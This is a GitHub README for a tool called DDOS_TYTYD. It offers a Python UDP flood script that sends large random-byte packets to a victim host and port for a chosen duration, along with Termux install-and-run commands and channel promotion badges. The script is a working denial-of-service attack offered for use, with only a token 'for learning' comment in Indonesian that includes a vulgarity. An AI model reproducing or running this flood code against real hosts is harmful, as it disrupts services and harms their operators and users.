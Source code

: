 # DDOS_TYTYD
V1 and V2 DDOS Tools

## Img Tools

<img src="https://github.com/AmmarrBN/DDOS_TYTYD/blob/main/IMG_20220621_105117.jpg" width="440" title="Menu" alt="Menu">


## Script Code
```js
#Buat Belajar Jan Dec Mulu Kontol
import os,sys,time,socket,random,string,optparse
import requests
from requests import post,get,put

#Kasi Logo Seterah
def usage():
    print ("Logo Seterah")

def flood(victim, vport, duration):
    client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    bytes = random._urandom(20000)
    timeout =  time.time() + duration
    sent = 3000

    while 1:
        if time.time() > timeout:
            break
        else:
            pass
        client.sendto(bytes, (victim, vport))
        sent = sent + 1
        print (f"bla bla")

def main():
    try:
          print (len(sys.argv))
          if len(sys.argv) != 4:
             usage()
          else:
             flood(sys.argv[1], int(sys.argv[2]), int(sys.argv[3]))
    except IndexError:
          sys.exit("use:python ddos.py bla")
if __name__ == '__main__':
    main()
```

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  pip install colorama requests bs4 
  git clone https://github.com/AmmarrBN/DDOS_TYTYD
  cd DDOS_TYTYD
  python ddos_tytyd.py
  ```
  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)


[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Lord%20Ganz&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Lord%20Ganz&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)

```

